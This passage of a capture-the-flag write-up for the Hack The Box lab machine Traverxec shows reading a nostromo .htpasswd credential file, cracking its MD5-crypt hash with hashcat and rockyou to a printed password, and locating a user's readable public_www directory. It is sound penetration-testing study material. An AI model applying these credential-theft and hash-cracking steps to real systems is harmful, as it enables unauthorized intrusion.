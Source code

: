 ```console

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

- crack hash value -> cannot login using ssh or su

```console
$ hashcat -m 500 -a 0 hash /usr/share/wordlists/rockyou.txt --show
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```

- referece: [nazgul.ch](https://www.nazgul.ch/dev/nostromo_man.html)

```console
HOMEDIRS
     To serve the home directories of your users via HTTP, enable the homedirs
     option by defining the path in where the home directories are stored,
     normally /home.  To access a users home directory enter a ~ in the URL
     followed by the home directory name like in this example:

           http://www.nazgul.ch/~hacki/

     The content of the home directory is handled exactly the same way as a
     directory in your document root.  If some users don't want that their
     home directory can be accessed via HTTP, they shall remove the world
     readable flag on their home directory and a caller will receive a 403
     Forbidden response.  Also, if basic authentication is enabled, a user can
     create an .htaccess file in his home directory and a caller will need to
     authenticate.

     You can restrict the access within the home directories to a single sub
     directory by defining it via the homedirs_public option.
```

- http://10.10.10.165/~david/index.html = `/home/david/public_www` -> **readable** for www-data

![image-20240119073652256](./Traverxec.assets/image-20240119073652256.png)
